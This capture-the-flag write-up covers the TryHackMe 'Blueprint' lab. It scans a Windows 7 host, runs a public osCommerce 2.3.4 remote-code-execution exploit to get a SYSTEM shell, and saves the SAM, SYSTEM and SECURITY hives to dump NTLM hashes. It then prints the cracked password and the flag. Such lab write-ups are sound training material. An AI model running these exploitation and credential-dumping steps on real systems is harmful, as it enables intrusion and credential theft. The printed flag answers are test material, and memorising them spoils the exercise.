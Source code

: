 # Blueprint

Laurent Chauvin | April 09, 2024

## Resources

[1] https://hashes.com/en/decrypt/hash
[2] https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1
[3] https://www.deploymentresearch.com/fix-for-accessing-administrative-shares-when-deploying-windows-server-2012-r2-using-mdt/

## Progress

```
export IP=10.10.221.162
```

Nmap scan:

```bash
nmap -sC -sV -oN nmap/initial 10.10.221.162

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 23:47 EDT
Nmap scan report for 10.10.221.162
Host is up (0.21s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Bad request!
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: -1s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ac:aa:8e:75:17 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-04-10T03:48:49
|_  start_date: 2024-04-10T03:43:47
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-10T04:48:51+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.60 seconds
```

Lots of things !!! 

First, let's check the Apache server at http://10.10.221.162:8080/.

We find the directory `[DIR]	oscommerce-2.3.4/`.

Might be interesting to look for vuln:

```bash
searchsploit oscommerce 2.3.4     

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                                                                                                                                               | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                                                                                                                             | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                                                                                                                          | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                                                                                                                           | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                                                                                                                              | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                                                                                                                                | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                                                                                                                                | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                                                                                                                                                            | php/webapps/50128.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

Interesting !! Some SQLi and RCE.

Looking at the exploit, we can read 

```py
# Vulnerability: Remote Command Execution when /install directory wasn't removed by the admin
```

Let's check if the install directory exists in http://10.10.221.162:8080/oscommerce-2.3.4/catalog/install/.

Indeed it exists. How does the exploit works:

```py
# Exploit: Exploiting the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php
```

Let's try:

```bash
python3 50128.py http://10.10.221.162:8080/oscommerce-2.3.4/catalog/

[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ 
```

Sweet !!!

By looking around, we can find a user named 'Lab' with this on his desktop:

```bash
RCE_SHELL$ dir C:\Users\Lab\Desktop\Toolbox

 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\Users\Lab\Desktop\Toolbox

11/27/2019  07:13 PM    <DIR>          .
11/27/2019  07:13 PM    <DIR>          ..
12/28/2016  12:19 AM               231 enable_uac.bat
               1 File(s)            231 bytes
               2 Dir(s)  19,505,995,776 bytes free
```

The challenge first ask for the NTLM hash decrypted of 'Lab' user. Let's dump it in a place we can retrieve it:

```bash
RCE_SHELL$ reg.exe save hklm\sam C:\xampp\htdocs\sam.save     
The operation completed successfully.
```

Now we can access the file from http://10.10.221.162:8080/

Let's do the same for system and security:


```bash
RCE_SHELL$ reg.exe save hklm\system C:\xampp\htdocs\system.save
The operation completed successfully.

RCE_SHELL$ reg.exe save hklm\security C:\xampp\htdocs\security.save
The operation completed successfully.
```

Now let's use `samdump2` to get the hashes:

```bash
samdump2 system.save sam.save

Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

Giving the hash `30e87bf999828446a1c1209ddde4c450` of Lab user to [1] yields:

`30e87bf999828446a1c1209ddde4c450:googleplus`

Let's have a look at the `enable_uac.bat` we saw previously:

```bash
RCE_SHELL$ type C:\Users\Lab\Desktop\Toolbox\enable_uac.bat

reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v "FilterAdministratorToken" /t REG_DWORD /d 0x00000001 
cls 
ECHO "Your Windows 7 client will reboot in 15 seconds." 
timeout 15 
shutdown -t 0 -r
```

Some documentation about `FilterAdministratorToken` can be found here [2,3]

When looking for the root flag, I looked at:

```bash
RCE_SHELL$ dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 14AF-C52C

 Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,496,292,352 bytes free
```

and try, just to see what was going to happen:

```bash
RCE_SHELL$ type C:\Users\Administrator\Desktop\root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

I was expecting an error message, but no !!

## Flag

1. User

```
googleplus
```

2. Privesc

```
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```
